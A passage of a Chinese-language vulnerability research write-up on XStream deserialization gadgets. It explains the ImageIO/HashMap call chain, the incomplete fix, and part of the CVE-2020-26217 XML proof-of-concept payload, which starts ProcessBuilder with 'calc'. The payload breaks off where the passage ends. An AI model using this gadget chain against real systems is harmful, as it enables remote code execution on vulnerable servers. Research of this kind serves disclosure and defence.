 从这个调用栈可以看出来，漏洞的触发入口和TreeMap、sorted-set有点类似。TreeMap漏洞的触发在comparable接口，XStream在反序列化完map中的entry之后会将entry put进TreeMap中，TreeMap中put方法调用comparable接口的方法，从而触发动态代理的执行。

ImageIO这个调用链会复杂很多，但漏洞的入口在于也是反序列化完entry之后，会将entry put进hashmap中，然后put方法中会调用hash方法

![image-20201118115705536](XStream 1.4.14-14.15 Gadget挖掘过程分享.assets/image-20201118115705536.png)

而hash方法中会调用key.hashcode方法，

![image-20201118145408614](XStream 1.4.14-14.15 Gadget挖掘过程分享.assets/image-20201118145408614.png)

最后层层调用到Base64Data.get方法。

![image-20201118145639131](XStream 1.4.14-14.15 Gadget挖掘过程分享.assets/image-20201118145639131.png)

然后是javax.crypto.CipherInputStream的read方法，最后到ImageIO$ContainsFilter的filter方法，触发反射执行

![image-20201118150229664](XStream 1.4.14-14.15 Gadget挖掘过程分享.assets/image-20201118150229664.png)

###### 修复

1.4.10之后的版本都无法使用这个POC，只禁了javax.crypto，也就是说只禁了中间一环没有把入口跟漏洞出发点ImageIO禁掉。这就导致了CVE-2020-26217。

![image-20201117174442916](XStream 1.4.14-14.15 Gadget挖掘过程分享.assets/image-20201117174442916-1610963057085.png)

##### CVE-2020-26217

是S2-052的变种，payload如下：

```xml
<map>
    <entry>
        <jdk.nashorn.internal.objects.NativeString>
            <flags>0</flags>
            <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
                <dataHandler>
                    <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
                        <contentType>text/plain</contentType>
                        <is class='java.io.SequenceInputStream'>
                            <e class='javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator'>
                                <iterator class='javax.imageio.spi.FilterIterator'>
                                    <iter class='java.util.ArrayList$Itr'>
                                        <cursor>0</cursor>
                                        <lastRet>-1</lastRet>
                                        <expectedModCount>1</expectedModCount>
                                        <outer-class>
                                            <java.lang.ProcessBuilder>
                                                <command>
                                                    <string>calc</string>
                                                </command>
                                            </java.lang.ProcessBuilder>
                                        </outer-class>
                                    </iter>
                                    <filter class='javax.imageio.ImageIO$ContainsFilter'>
                                        <method>
                                            <class>java.lang.ProcessBuilder</class>
                                            <name>start</name>
                                            <parameter-types/>
                                        </method>
                                        <name>start</name>
                                    </filter>
                                    <next/>
                                </iterator>
                                <type>KEYS</type>
                            </e>
                            <in class='java.io.ByteArrayInputStream'>
```